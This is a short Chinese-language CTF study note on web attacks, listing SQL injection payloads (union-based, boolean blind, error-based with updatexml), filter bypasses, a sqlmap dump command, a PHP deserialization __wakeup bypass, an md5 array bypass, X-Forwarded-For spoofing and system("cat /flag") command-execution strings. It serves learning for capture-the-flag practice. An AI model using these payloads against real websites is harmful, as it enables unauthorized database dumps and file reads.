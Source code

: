 ### CTF入门的一些知识和范式



#### SQL注入

1. 先找到是数字型注入还是字符型注入 并判断闭合符

​	id = 1 的回显是否和 id = 2-1 一样 -> 判断是何种注入

​	?id=1' and 1=2--+ -> 判断‘是否为闭合符

2. 找到回显位

​	?id=-1' union select 1,2,3--+ -> 判断哪一位为回显位

3. 开始利用范式找到表名（例如第2位为回显位）（结果为fl4g）

​	union select 1,database(),group_concat(**table_name**)from information_schema.tables where table_schema=**database()**--+

```
union select 1,database(),group_concat(table_name)from information_schema.tables where table_schema=database()--+
```



4. 再利用范式从表名中找到列名    （结果为fllllag）

   union select 1,database(),group_concat(**column_name**)from information_schema.columns where table_name=**'fl4g'**--+

   ```
   union select 1,database(),group_concat(column_name)from information_schema.columns where table_name='fl4g'--+
   ```

   

5. 最后利用select从列名中找到flag

   union select 1,database(),group_concat(fllllag)from fl4g--+

6. 跳过过滤：

   空格：转换为/**/

   union：双写为ununionion







#### 布尔盲注

没有回显位时可用此方法注入 需用python脚本自动化此方法 但是待学习python脚本编程

1. 先找到数据库名的长度

   ```sql
   ?id=1 and length(database())=1
   #query_error
   ...
   ?id=1 and length(database())=4
   #query_success
   #库名长度为4
   
   ```

   

2. 在利用substr函数挨个找到database()的名字

   ```sql
   ?id=1 and substr(database(),1,1)=‘a’
   #query_error
   ...
   ?id=1 and substr(database(),1,1)=‘s’
   #query_success
   #库名第一个字符是s
   ...
   ?id=1 and substr(database(),4,1)=‘i’
   #query_success
   #库名第四个字符是i
   #库名是sqli
   
   ```

3. 此后便根据此找到database 的 表个数 表名 列个数 列名 内容 即可

   **人工巨麻烦，必须找到利用python脚本的方法**

#### 报错注入

当网站开启错误调试信息时可用此方法注入（不然只能盲注）

假设一个网站传入为name = xxxx, pass = xxxx

1. 利用范式找到database中的所有表名（此处pass被注释）

   name=1'and updatexml(1,concat(0x7e,(**SELECT group_concat(table_name) from information_schema.tables where table_schema=database()))**,1)--+&pass=xxxxx --+

   熟悉吗？接下来加粗部分同SQL注入即可

#### 反序列化

如何跳过__wakeup函数？

O:6:"HaHaHa":***3***:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}

如上所示 对象本该只有两个属性 admin 和 passwd ，将数量设置为3即可在反序列化中跳过wakeup函数。

#### sqlmap

python sqlmap.py -u "http://node4.anna.nssctf.cn:28366/?id=1" --dump

#### PHP伪协议

如何传入文件？

system(cat /flag)

#### 文件包含

posh不要随便加空格

如何绕过waf？

先利用伪协议查看index.php的编码

找到条件并跳过即可

#### md5数组绕过

```
if($_POST['wqh']!==$_POST['dsy']&&md5($_POST['wqh'])===md5($_POST['dsy'])){
    echo $FLAG;
} 
```

此时传入两个数组即可，因为数组可以被传入md5，但是会返回NULL。

#### XXF

从本地页面跳转使用

X-Forwarded-For: 127.0.0.1

Referer:127.0.0.1

遇到将字符作为语句执行 可以将该字符设置为system("cat /f*")
